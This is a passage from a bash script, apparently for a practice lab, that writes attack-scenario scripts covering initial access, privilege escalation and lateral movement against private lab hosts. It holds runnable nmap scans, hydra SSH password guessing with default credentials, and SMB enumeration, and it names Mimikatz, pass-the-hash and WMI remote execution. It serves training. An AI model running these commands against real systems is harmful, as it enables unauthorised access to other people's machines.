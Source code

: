 ```bash
# Service enumeration
echo "[+] Step 2: Service Enumeration"
nmap -sS -sV 10.0.2.101-103

# Brute force attacks
echo "[+] Step 3: Credential Attacks"
hydra -l vulnerable -p password 10.0.2.101 ssh
hydra -l admin -p admin 10.0.2.102 ssh

echo "[+] Initial access scenario completed"
EOF

# Scenario 2: Privilege Escalation
sudo tee /opt/attack-scenarios/02-privilege-escalation.sh > /dev/null <<'EOF'
#!/bin/bash
echo "[+] Attack Scenario 2: Privilege Escalation"
echo "[+] Assumes initial access has been gained"

# Linux privilege escalation
echo "[+] Step 1: Linux Privilege Escalation"
echo "Run LinEnum.sh on compromised Linux system"
echo "Check for SUID binaries, weak file permissions"

# Windows privilege escalation
echo "[+] Step 2: Windows Privilege Escalation"
echo "Run PowerUp.ps1 on compromised Windows system"
echo "Check for unquoted service paths, weak service permissions"

echo "[+] Privilege escalation scenario completed"
EOF

# Scenario 3: Lateral Movement
sudo tee /opt/attack-scenarios/03-lateral-movement.sh > /dev/null <<'EOF'
#!/bin/bash
echo "[+] Attack Scenario 3: Lateral Movement"
echo "[+] Moving from compromised system to other network hosts"

# SMB enumeration
echo "[+] Step 1: SMB Enumeration"
smbclient -L //10.0.2.102 -N
enum4linux 10.0.2.102

# Pass-the-hash attacks
echo "[+] Step 2: Pass-the-Hash"
echo "Use Mimikatz to extract hashes"
echo "Use psexec.py to move laterally"

# WMI abuse
echo "[+] Step 3: WMI Abuse"
echo "Use wmiexec.py for remote command execution"

echo "[+] Lateral movement scenario completed"
EOF

chmod +x /opt/attack-scenarios/*.sh
```
